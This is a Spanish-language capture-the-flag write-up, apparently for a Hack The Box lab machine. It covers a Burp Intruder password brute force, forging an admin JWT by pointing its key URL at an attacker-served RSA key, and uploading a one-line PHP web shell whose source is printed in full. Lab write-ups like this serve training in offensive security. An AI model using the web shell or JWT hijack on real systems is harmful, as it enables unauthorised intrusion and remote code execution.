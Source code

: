 ## Vulnerability Assessment {-}

### Attaque de typo intruder con BurpSuite {-}

1. Creamos un diccionario basado en el rockyou.txt

    ```bash
    cd content
    head -n 10000 /usr/share/wordlists/rockyou.txt > passwords
    ```

1. Desde burpsuite configuramos el scope hacia la url http://10.10.10.230
1. En firefox le ponemos el foxyproxy para el burpsuite
1. Lanzamos una peticion desde login con admin admin y la interceptamos con el burpsuite
1. En burpsuite le damos al `Ctrl+i` para enviarlo al intruder
1. Configuramos el attacker **Sniper** dando la posicion a la palabra password

    ```r
    knitr::include_graphics("images/notebook-sniper-config.png")
    ```

1. Cargamos el diccionario creado a la payload list y le quitamos el Payload encoding

    ```r
    knitr::include_graphics("images/notebook-sniper-list.png")
    ```

1. En Options creamos un regexp para saver cuando la contraseña es valida

    - en Grep - Extract damos a ADD
    - le damos a Fetch response

        ```r
        knitr::include_graphics("images/notebook-fetch-response.png")
        ```

1. Le damos a start attack

No encontramos nada.

### Register un nuevo usuario {-}

Como no a sido possible reventar la mamona con un password brute force, utilizamos la web para ver si encontramos una vulnerabilidad.
Nos creamos un usuario y vemos que podemos añadir notas como un blog. Una de las possibilidades seria tratar de hacer fuzzing pero en este 
caso necessitariamos la cookie de session.Analizando un poco vemos que la cookie de session esta almazenada por un JWT.

Antes de tratar de fuzzear, mirramos si se puede tratar de reventar el JWT Token.

Copiamos el token y la auditamos en [jwt.io](https://jwt.io)

Vemos que hay una data que se llama *admin_cap* y que esta setteada a 0. Pero si tratamos de cambiar a 1 nos invalida el token y vemos que es porque
necessitamos un key (private o public) que parece que sea en el `http://localhost:7070/privKey.key` de la maquina victima. Possiblemente podriamos Hijackear
la url donde encuentra esta Key por una creado por nosotros.

### JWT Hijacking {-}

1. Nos creamos un par de claves con **openssl**

    ```bash
    openssl genrsa -out privKey.key 2048
    ```
1. Introducimos la key en la web de JWT.io

    ```r
    knitr::include_graphics("images/jwt-hijacking.png")
    ```

1. Nos entablamos un servidor web para que pueda cojer la key

    ```bash
    python3 -m http.server 7070
    ```

1. Copiamos el JWT token en firefox

    ```r
    knitr::include_graphics("images/jwt-firefox.png")
    ```

Ya lanzando la web otra vez y vemos que un Admin Panel a salido y en el cual se puede ver notas y uploadear ficheros.

### Analizamos las notas {-}

Analizando las notas se puede ver :

- Usuario admin
- Usuario Noah
- Ejecucion de fichero php

### Uploadeamos un s4vishell.php {-}

Como hay un boton upload vamos a por una `s4vishell.php`

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Subimos el fichero y perfecto nos va y pinchando el boton view ya tenemos Remote Code Execution

